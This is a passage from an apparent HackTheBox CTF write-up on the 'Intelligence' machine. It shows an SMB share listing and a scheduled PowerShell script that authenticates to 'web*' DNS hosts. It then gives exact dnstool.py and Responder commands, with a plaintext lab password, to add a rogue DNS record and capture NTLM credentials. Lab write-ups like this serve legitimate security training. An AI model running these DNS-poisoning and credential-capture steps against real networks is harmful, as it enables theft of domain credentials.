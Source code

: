 Got the `user.txt` from "Tiffany.Molina" User folder and there's another user on the box "Ted.Graves".
```bash
smb: \Tiffany.Molina\Desktop\> dir
  .                                  DR        0  Mon Apr 19 06:21:46 2021
  ..                                 DR        0  Mon Apr 19 06:21:46 2021
  user.txt                           AR       34  Sat Nov 27 01:48:28 2021

		3770367 blocks of size 4096. 1450547 blocks available
```

There's only 1 interesting file is  `downdetector.ps1` file in `\IT` share.
```ps1
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

This script is running on Scheduler in every 5min from user "Ted.Graves" and checking inactive hosts from domain controller's DNS records which start with `web*` using his creds.

If we add a DNS record in the domain control with that we can do [NTLM Relay Attack](https://www.qomplx.com/qomplx-knowledge-ntlm-relay-attacks-explained/#what-are-ntlm-relay-attacks).

## NTLM Relay Attack

For that we can use [responder](https://github.com/lgandx/Responder); **Source [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks#responder)**

Adding DNS record in the domain controller with [krbrelayx](https://github.com/dirkjanm/krbrelayx) `dnstool.py` script.
```bash
❯ python dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -r webduck -d 10.10.14.42 -a add 10.10.10.248
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding extra record
[+] LDAP operation completed successfully
```

Running responder on "tun0" interface on Analyze mode 
```bash
❯ sudo responder -I tun0 -A -v #
```
